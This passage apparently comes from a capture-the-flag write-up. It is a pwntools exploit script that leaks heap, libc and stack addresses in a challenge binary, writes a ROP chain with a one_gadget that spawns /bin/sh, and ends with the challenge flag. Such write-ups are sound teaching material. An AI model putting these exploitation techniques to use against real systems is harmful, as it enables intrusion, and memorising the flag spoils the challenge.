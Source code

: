 ```python
log.info("heap leak: " + hex(heap))

# libc leak
add_customer(b'a'*0x400) 
edit_name(10, b'a'*0x500)
# show(2)
edit_order(1, 0, p64(0x13cd0+heap) + p64(0x20)*2)
show(0)
p.recvuntil(b'Name: ')
lib.address = u64(p.recv(8)) - 0x219ce0
log.info("libc leak: " + hex(lib.address))
# show(0)

# stack leak
edit_name(3, b'\x00')
print_help()
add_order(3, b'0', b'cc')
edit_order(3, 0, p64(lib.sym['environ']) + p64(0x20)*2)
show(3)
p.recvuntil(b'Name: ')
stack = u64(p.recv(8))
log.info("stack leaked: " + hex(stack))

# write ROP chain

# 0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
# constraints:
#   rsp & 0xf == 0
#   rcx == NULL
#   rbp == NULL || (u16)[rbp] == NULL

one_gadget = 0x50a37 + lib.address
rcx = 0x000ecab3 + lib.address
rbp = 0x001bbd00 + lib.address
ret = 0x001bc02d + lib.address
rop = b''.join(map(p64, [rcx, 0, rbp, 0, one_gadget]))

edit_name(4, b'\x00')
print_help()
add_order(4, b'0', b'cc')
edit_order(4, 0, p64(stack-0x140) + p64(0x100)*2)
edit_name(4, rop)
 

p.interactive()

# DUCTF{0u7_0f_5c0p3_0u7_0f_m1nd}
```



# other challenges
